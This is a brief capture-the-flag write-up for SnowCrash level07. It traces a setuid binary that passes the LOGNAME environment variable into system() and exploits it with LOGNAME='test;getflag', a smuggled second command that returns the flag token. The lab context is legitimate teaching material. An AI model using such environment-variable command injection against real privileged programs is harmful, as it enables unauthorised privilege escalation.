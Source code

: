 # Snowcrash07

Again, we have a suid binary

```bash
~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()= 2007
geteuid()= 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)= 0
getenv("LOGNAME")= "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff4f, 0xb7e5ee55, 0xb7fed280)= 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )= 0
+++ exited (status 0) +++

```

Ok so this uses env once again, we can poison that one more time
But it only reads from it once, not during the system call.
We can see however, that the return from this call is directly merged a /bin/echo lead then executed

So maybe we add stuff afterwards ?

```sh
~$ env LOGNAME='test;getflag' ./level07
test
Check flag.Here is your token : XXXXXXXXXXXXX
```
Getting the hang of this
Again, suid binary, getflag, no need for login
